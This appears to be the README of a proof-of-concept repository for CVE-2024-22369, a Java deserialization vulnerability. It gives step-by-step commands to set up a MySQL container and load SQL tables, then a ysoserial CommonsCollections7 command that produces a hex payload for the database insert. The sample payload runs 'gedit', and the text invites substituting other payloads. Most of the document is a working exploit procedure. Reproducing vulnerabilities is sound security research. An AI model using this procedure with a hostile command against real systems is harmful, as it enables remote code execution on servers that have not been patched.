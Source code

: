 # CVE-2024-22369

### Credits

This POC is based on the reproducer built by Ziyang Chen of HuaWei Open Source Management Center

The reproducer has been used to create this PoC, with some adjustments and clean up, and also enriched with some more automation.

### Prepare the enviroment

We'll need a Mysql instance

`docker run --name some-mysql -p 3306:3306 -e MYSQL_ROOT_PASSWORD=my-secret-pw -e MYSQL_DATABASE=db -d mysql`

Now we'll need to create the required tables:

You have two files: employee.sql and employee_completed.sql

Run the following command:

`docker run -it --rm mysql mysql -h 172.17.0.2 -uroot -p`

Insert your password, execute `USE db` and run the two SQL files.

At this stage you already have the required bits to reproduce the deserialization.

Run the following command

`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' some-mysql`

and take note of the address.

Now edit the src/main/resources/application.properties according to what your enviroment status is.

### Payload

The payload we are using is based on commons-collections 3.2.1.

You'll need to use:

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

From the command line you can recreate the payload this way:

`java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \  
--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \   
--add-opens java.base/java.net=ALL-UNNAMED \   
--add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections7 gedit | xxd -p`

This will return the Hex version of the payload. The idea is to run `gedit` command while deserializing.

You can play with possible payloads and change the SQL scripts by changing the INSERT statement and add the new   
generated payloads.
